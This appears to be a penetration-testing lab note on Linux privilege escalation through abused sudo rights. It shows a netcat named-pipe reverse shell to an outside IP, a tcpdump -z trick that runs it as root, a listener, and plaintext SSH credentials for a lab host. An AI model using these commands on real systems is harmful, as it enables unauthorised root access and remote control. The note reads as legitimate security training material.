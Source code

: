 # Sudo Rights Abuse

When the sudo command is issued, the system will check if the user issuing the command has the appropriate rights, as configured in /etc/sudoers.

## Check to see if the current user has any sudo privileges

sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump

Example :

0. Misconfiguration : sudoers file is edited to grant a user the right to run a command such as tcpdump per the following entry in the sudoers file: (ALL) NOPASSWD: /usr/sbin/tcpdump

1. Create a reverse shell

cat /tmp/.test
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f

2. By specifying the -z flag, an attacker could use tcpdump to execute a shell script, gain a reverse shell as the root user or run other privileged commands

sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

3. Listen Reverse Shell

nc -lnvp 443

## LAB

ssh htb-student@10.129.181.58
Academy_LLPE!

sudo -l
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl



